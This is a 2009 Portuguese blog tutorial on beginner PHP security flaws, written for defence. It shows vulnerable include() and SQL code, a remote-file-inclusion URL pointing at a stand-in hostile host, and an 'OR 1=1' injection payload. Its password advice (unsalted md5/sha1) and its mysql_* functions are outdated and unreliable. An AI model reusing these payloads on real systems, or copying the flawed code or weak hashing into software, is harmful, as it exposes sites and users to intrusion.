 ```yaml
---
layout: post
title: Principais falhas de segurança no PHP
excerpt: Veja um pouco sobre cada uma das principais falhas de segurança criadas pelos
  iniciantes em PHP e que podem deixar um site de portas abertas para o mundo...

date: '2009-03-24 20:08:33 -0300'
categories:
- PHP
- Artigos
- Segurança
tags: []
---
```

Hoje vou falar sobre alguns erros comuns que são cometidos por programadores que estão começando agora. Resolvi fazer esse post pois vejo diariamente em fóruns de PHP pessoas com erros em scripts que possuem rombos enormes de segurança...

Não prometo deixar o seu sistema tão protegido quanto o [](/arquivos/2009/03/cadillac-one.jpg) mas, sem dúvida, você vai evitar que muita gente faça um estrago considerável no seu site.

Se você se identificar com algumas dessas medidas não saia correndo e se jogue da ponte... Faça os devidos ajustes e tudo ficará bem.

<h4>Cuidados com a URL - Parte I</h4>
Uma falha muito comum são aqueles sites que, tentando usar um sistema "legal", acabam abusando da sorte... São sites que incluem o conteúdo <span style="color: #999999;">(via <strong>include()</strong>)</span> baseado em uma variável do método $_GET. Exemplo:


{% highlight php linenos %}
<?php
  // Verifica se a variável $_GET['pagina'] existe
  if (isset($_GET['pagina'])) {
    // Pega o valor da variável $_GET['pagina']
    $arquivo = $_GET['pagina'];
  } else {
    // Se não existir variável, define um valor padrão
    $arquivo = 'home.php';
  }
  include ($arquivo); // Inclui o arquivo
?>
{% endhighlight %}

E na URL do site ficaria:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=contato.php</span></span>

Com isso o "invasor" pode, por exemplo, colocar um caminho de um script externo no lugar da variável:
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=<span style="color: #ff0000;">http://sitedumal.net/deleta-banco.php</span></span></span>

O seu site incluiria o arquivo normalmente e executaria tudo que existe dentro dele... O resto você já pode imaginar.

Evitar que isso aconteça é extremamente simples: é só criar um <em>array </em>contendo os nomes dos arquivos que poderão ser incluídos, dessa forma:


{% highlight php linenos %}
<?php
  // Define uma lista com os arquivos que poderão ser chamados na URL
  $permitidos = array('home.php', 'produtos.php', 'contato.php', 'empresa.php');

  // Verifica se a variável $_GET['pagina'] existe E se ela faz parte da lista de arquivos permitidos
  if (isset($_GET['pagina']) AND (array_search($_GET['pagina'], $permitidos) !== false)) {
    // Pega o valor da variável $_GET['pagina']
    $arquivo = $_GET['pagina'];
  } else {
    // Se não existir variável $_GET ou ela não estiver na lista de permissões, define um valor padrão
    $arquivo = 'home.php';
  }
  include ($arquivo); // Inclui o arquivo
?>
{% endhighlight %}

Viu? Adicionamos uma única linha e mais uma condição e está tudo resolvido. Com isso, se o atacante colocar lá o site dele na URL do seu site o PHP vai identificar que a variável <strong>$_GET['pagina']</strong> existe mas não está no <em>array </em><strong>$permitidos</strong>, então ele vai incluir o arquivo <strong>home.php</strong>.

<h4>Cuidados com a URL - Parte II</h4>
Outro erro comum é quando passamos parâmetros pela URL, por exemplo: o ID de uma categoria ou de um produto que, mais tarde, será buscado direto no banco para recolher algumas informações.

Geralmente o formato é o seguinte:
<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=12</span></span>
ou
<span style="color: #008080;">http://www.meusite.com.br/?pagina=produtos.php&<span style="color: #0000ff;">id=12</span></span>

Com isso <span style="color: #999999;">(se você não se preparar) </span>você deixa uma porta aberta para um ataque famoso chamado <strong>SQL-Injection</strong> que nada mais é do que a inserção de um código SQL em um campo de texto ou parâmetro da URL que será enviado diretamente para o banco. Vamos a um exemplo:


{% highlight php linenos %}
<?php
// Formato da URL:
//  http://www.meusite.com.br/produtos.php?id=12

// Salva o parâmetro da URL numa variável
$produto = $_GET['id'];

// Monta a consulta MySQL
$sql = "SELECT * FROM `produtos` WHERE `id` = '".$produto."' LIMIT 1";

// Executa a query
$query = mysql_query($sql);

// Salva o resultado (em formato de array) em uma variável
$resultado = mysql_fetch_assoc($query);

?>
{% endhighlight %}

A sua consulta ao MySQL ficaria da seguinte forma:


{% highlight sql linenos %}
SELECT * FROM `produtos` WHERE `id` = '12' LIMIT 1
{% endhighlight %}

Até aqui tudo bem.. Seu script funciona, você tem o que precisa e tá tudo na mais perfeita harmonia... Mas chega um <span style="text-decoration: line-through;">desocupado</span> invasor e modifica a sua URL deixando da seguinte forma:

<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=<span style="color: #ff0000;">' OR 1=1 OR ''='</span> </span></span>

Agora a sua query MySQL fica assim:


{% highlight sql linenos %}
SELECT * FROM `produtos` WHERE `id` = '' OR 1=1 OR '' = '' LIMIT 1
{% endhighlight %}

Viu o que aconteceu? As possíveis condições para a consulta ser verdadeira são: id igual a vazio, 1 igual a 1 e vazio igual a vazio... Essa consulta vai ser dada como verdadeira e todos os produtos serão retornados. Sim meu amigo, é o fim do mundo.

Mas, como eu disse, não estou aqui para te assustar e sim para mostrar como resolver o pepino... Vamos a uma atitude simples mas que te salvará do Apocalipse... É só mudar uma linha:


{% highlight sql linenos %}
// Salva o parâmetro da URL numa variável obrigando-o a ser um valor inteiro
$produto = (int)$_GET['id'];
{% endhighlight %}

Com isso eu digo que valor da variável <strong>$produto</strong> será igual ao <strong>valor inteiro</strong> <span style="color: #999999;">(<em>int </em>de integer)</span> da variável <strong>$_GET['id']</strong>. Problema resolvido meus caros!

Se o atacante colocar uma string como parâmetro <span style="color: #999999;">(todo SQL-Injection é uma string)</span> ela será convertida para inteiro... E o valor inteiro de uma string é igual a zero.  8-)

Peço <span style="color: #ff0000;"><strong>atenção dobrada</strong></span> para o entendimento desse último exemplo pois o <strong>SQL-Injection</strong> é o ataque mais comum dos últimos tempos.

Caso você passe parâmetros via URL que são strings e não números inteiros, você pode usar a função <strong>mysql_real_escape_string()</strong> da seguinte forma:


{% highlight php linenos %}
$parametro = mysql_real_escape_string($_GET['nome']);
{% endhighlight %}

Com isso você evita o uso de aspas e caracteres protegidos do MySQL mantendo a sua <em>query </em>segura. Esse caso também vale para formulários dos quais os dados vão direto para consultas MySQL <span style="color: #999999;">(formulários de login, cadastro e comentários, por exemplo)</span>.

<h4>Sobre Usuários e Senhas</h4>
Outro ponto muito importante é não exibir, em momento algum, o nome de login <span style="color: #999999;">(usuário)</span> de algum usuário cadastrado no sistema. Lembre-se que para um usuário conseguir invadir a conta do outro ele precisa de duas coisas: usuário <span style="color: #999999;">(ou e-mail)</span> e a senha.. Se ele souber o usuário já tem 50% de sucesso.

Vale lembrar também que você <strong>não precisa</strong> deixar a senha do usuário na forma real quando salva-la no banco. É muito mais seguro salvar um <strong>md5() </strong>ou <strong>sha1()</strong> da senha no banco e quando for necessário fazer a validação do usuário você também gera o <strong>md5()</strong> ou <strong>sha1()</strong> da senha que ele digitou e compara com o que há no banco. Assim, se por ventura alguém conseguir invadir e pegar todos os registros do banco de usuários, o máximo que ele irá conseguir são o usuário/e-mail e uma senha criptografada.

Se quiser saber como funciona criptografica no PHP é só ver esse post:» [Criptografia no PHP usando md5, sha1 e base64](/criptografia-no-php-usando-md5-sha1-e-base64)

Espero que tenham gostado. :)

